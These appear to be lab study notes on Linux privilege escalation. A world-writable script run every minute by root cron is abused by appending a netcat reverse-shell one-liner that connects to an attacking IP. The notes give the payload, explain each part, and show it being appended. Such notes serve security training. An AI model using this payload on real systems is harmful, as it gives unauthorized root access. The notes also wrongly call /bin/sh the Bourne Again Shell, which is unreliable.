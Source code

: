 It appears that a script called **user_backups.sh** under **/home/joe/** is executed in the context of the root user
+ Judging by the timestamps, it seems that this job runs once every minute

Since we know the location of the script, we can inspect its contents and permissions:
```
joe@debian-privesc:~$ cat /home/joe/.scripts/user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/

joe@debian-privesc:~$ ls -lah /home/joe/.scripts/user_backups.sh
-rwxrwxrw- 1 root root 49 Aug 25 05:12 /home/joe/.scripts/user_backups.sh
```

The script itself is fairly straight-forward: it simply copies the user's **home** directory to the **backups** subdirectory
+ The permissions of the script reveal that every local user can write to the file

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell _one-liner_
+ If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a one-minute period
+ Reverse shell one line (Make sure and replace the IP): 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 1234 >/tmp/f
```
+ It works via the following:
	- `rm /tmp/f`: Deletes the file `/tmp/f` if it already exists. This ensures a clean start for the FIFO (First In, First Out) pipe that will be created.
	- `mkfifo /tmp/f`: Creates a named pipe (FIFO) named `/tmp/f`. This pipe will act as a conduit for communication between processes.
	- `cat /tmp/f | /bin/sh -i 2>&1`: Sets up a command to run `/bin/sh` (Bourne Again Shell) interactively (`-i` flag) and redirects its standard input and output to `/tmp/f`. This means the shell will read input from and write output to the FIFO pipe.
	- `nc 192.168.118.2 1234 >/tmp/f`: Initiates a connection to IP address `192.168.118.2` on port `1234` using the `nc` (netcat) command and redirects its output to `/tmp/f`. This sends the input/output of the shell to the specified IP and port.
		- Using an example IP
+ Example execution:
```
joe@debian-privesc:~$ cd .scripts

joe@debian-privesc:~/.scripts$ echo >> user_backups.sh

joe@debian-privesc:~/.scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh

joe@debian-privesc:~/.scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```
